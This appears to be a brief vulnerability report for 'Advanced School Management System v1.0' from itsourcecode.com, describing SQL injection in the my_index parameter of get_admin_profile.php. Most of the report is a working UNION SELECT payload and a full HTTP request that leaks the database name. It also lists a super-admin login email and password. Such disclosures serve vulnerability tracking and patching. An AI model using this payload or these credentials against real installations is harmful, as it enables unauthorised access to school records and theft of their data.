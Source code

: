 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_admin_profile.php?my_index=

Vulnerability location: /school/model/get_admin_profile.php?my_index=,my_index

[+] Payload: /school/model/get_admin_profile.php?my_index=-1'%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ // Leak place ---> my_index

Current database name: std_db,length is 6


```sql
GET /school/model/get_admin_profile.php?my_index=-1'%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171971128-b2e9f480-90dc-4eb6-8397-22fcf6ccff59.png)
